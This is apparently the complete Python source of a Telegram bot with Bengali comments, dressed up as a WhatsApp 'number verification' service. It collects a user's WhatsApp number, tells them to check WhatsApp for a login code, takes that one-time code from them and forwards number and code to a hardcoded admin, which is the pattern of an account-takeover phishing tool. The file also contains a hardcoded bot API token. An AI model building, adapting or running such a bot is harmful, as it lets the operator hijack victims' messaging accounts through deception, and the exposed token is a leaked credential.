 import telebot
from telebot import types
from datetime import datetime
import time
import threading

# 🔥 Bot Token এবং Admin ID
API_TOKEN = '7736826287:AAFiglXIJsDN3JMZagRfY0TCvxIK1n8E06g'
ADMIN_ID = 6243881362  # আপনার অ্যাডমিন আইডি
bot = telebot.TeleBot(API_TOKEN)

users_data = {}  # ইউজার ডাটা সংরক্ষণ
active_sessions = {}  # এক অপশন বাতিল করতে হলে ট্র্যাক করতে হবে

# 🔔 নামাজের সময়সূচি (বট এই সময় বন্ধ থাকবে)
prayer_times = {
    "ফজর": ("04:00", "05:00"),
    "জোহর": ("12:50", "13:50"),
    "আসর": ("16:00", "16:40"),
    "মাগরিব": ("18:00", "18:30"),
    "এশা": ("19:15", "19:45")
}

# 📌 নামাজের সময় চেক করার ফাংশন
def is_prayer_time():
    current_time = datetime.now().strftime("%H:%M")
    for prayer, (start, end) in prayer_times.items():
        if start <= current_time <= end:
            return prayer
    return None

# 🎉 স্টার্ট মেসেজ (এক্সক্লুসিভ ডিজাইন)
@bot.message_handler(commands=['start'])
def start(message):
    user_id = message.chat.id
    prayer_in_progress = is_prayer_time()
    
    if prayer_in_progress:
        bot.send_message(user_id, f"⏳ **বট এখন {prayer_in_progress} নামাজের জন্য বন্ধ আছে।**\n\n📢 দয়া করে কিছুক্ষণ পর চেষ্টা করুন!", parse_mode="Markdown")
        return

    welcome_text = f"""
✨ **স্বাগতম {message.from_user.first_name}!** ✨
🛠️ এই বটের মাধ্যমে আপনি সহজেই **OTP ভেরিফিকেশন** ও অন্যান্য সুবিধা পেতে পারেন।

📌 **নিচের অপশন থেকে একটি বেছে নিন:** 👇
"""
    markup = types.ReplyKeyboardMarkup(resize_keyboard=True)
    markup.add("📱 Number Verification", "📞 Support")
    bot.send_message(user_id, welcome_text, reply_markup=markup, parse_mode="Markdown")

# 📱 Number Verification
@bot.message_handler(func=lambda message: message.text == "📱 Number Verification")
def get_number(message):
    user_id = message.chat.id
    if user_id in active_sessions:
        bot.send_message(user_id, "⚠️ **আপনার আগের অনুরোধ বাতিল করা হয়েছে। নতুন অনুরোধ দিন!**", parse_mode="Markdown")
    
    active_sessions[user_id] = "number_verification"
    bot.send_message(user_id, "✅ **আপনার WhatsApp নাম্বার দিন:**", parse_mode="Markdown")
    bot.register_next_step_handler(message, ask_otp)

def ask_otp(message):
    user_id = message.chat.id
    if active_sessions.get(user_id) != "number_verification":
        return
    
    number = message.text
    users_data[user_id] = {'number': number}

    # অ্যাডমিনকে জানানো হবে
    bot.send_message(ADMIN_ID, f"📩 **নতুন নাম্বার প্রাপ্ত!**\n🆔 **User ID:** `{user_id}`\n📞 **Number:** `{number}`", parse_mode="Markdown")

    bot.send_message(user_id, "📩 **Check Your WhatsApp To Get OTP Code!**", parse_mode="Markdown")

    # ⏳ ৪০ সেকেন্ডের কাউন্টডাউন
    countdown_message = bot.send_message(user_id, "⏳ **OTP এর জন্য অপেক্ষা করুন: 40 সেকেন্ড**", parse_mode="Markdown")
    
    def countdown():
        for i in range(40, 0, -1):
            if active_sessions.get(user_id) != "number_verification":
                return
            time.sleep(1)
            bot.edit_message_text(chat_id=user_id, message_id=countdown_message.message_id, text=f"⏳ **OTP এর জন্য অপেক্ষা করুন: {i} সেকেন্ড**", parse_mode="Markdown")

        bot.send_message(user_id, "🔢 **এখন OTP কোড দিন:**", parse_mode="Markdown")
        bot.register_next_step_handler(message, verify_otp, number)

    threading.Thread(target=countdown).start()

def verify_otp(message, number):
    user_id = message.chat.id
    if active_sessions.get(user_id) != "number_verification":
        return

    otp = message.text
    users_data[user_id]['otp'] = otp  

    bot.send_message(user_id, "⏳ **We Are Checking, Please Wait...**", parse_mode="Markdown")

    markup = types.InlineKeyboardMarkup()
    markup.add(types.InlineKeyboardButton("✅ Verified 💚", callback_data=f"verify_{user_id}"),
               types.InlineKeyboardButton("❌ Unverified ❤️", callback_data=f"unverify_{user_id}"))

    bot.send_message(ADMIN_ID, f"📥 **নতুন OTP অনুরোধ!**\n\n🆔 **User ID:** `{user_id}`\n📞 **Number:** `{number}`\n🔢 **OTP:** `{otp}`",
                     reply_markup=markup, parse_mode="Markdown")

# ✅ অ্যাডমিনের বোতাম হ্যান্ডলার
@bot.callback_query_handler(func=lambda call: call.data.startswith("verify_") or call.data.startswith("unverify_"))
def handle_verification(call):
    user_id = int(call.data.split("_")[1])

    if call.data.startswith("verify_"):
        bot.send_message(user_id, "✅ **Your OTP has been Verified!** 🎉", parse_mode="Markdown")
        bot.send_message(ADMIN_ID, f"✅ **User ID {user_id} ভেরিফাইড হয়েছে!** 💚", parse_mode="Markdown")
    else:
        bot.send_message(user_id, "❌ **Your OTP Verification Failed!** Try Again.", parse_mode="Markdown")
        bot.send_message(ADMIN_ID, f"❌ **User ID {user_id} আনভেরিফাইড করা হয়েছে!** ❤️", parse_mode="Markdown")

    active_sessions.pop(user_id, None)  # অপশন শেষ হলে সেশন বন্ধ

# 📞 Support অপশন
@bot.message_handler(func=lambda message: message.text == "📞 Support")
def support(message):
    bot.send_message(message.chat.id, "📩 **সহায়তার জন্য এখানে যোগাযোগ করুন:** [Support](https://t.me/YOUR_SUPPORT_LINK)", parse_mode="Markdown")

# 🚀 বট চালু করুন
bot.polling(none_stop=True)
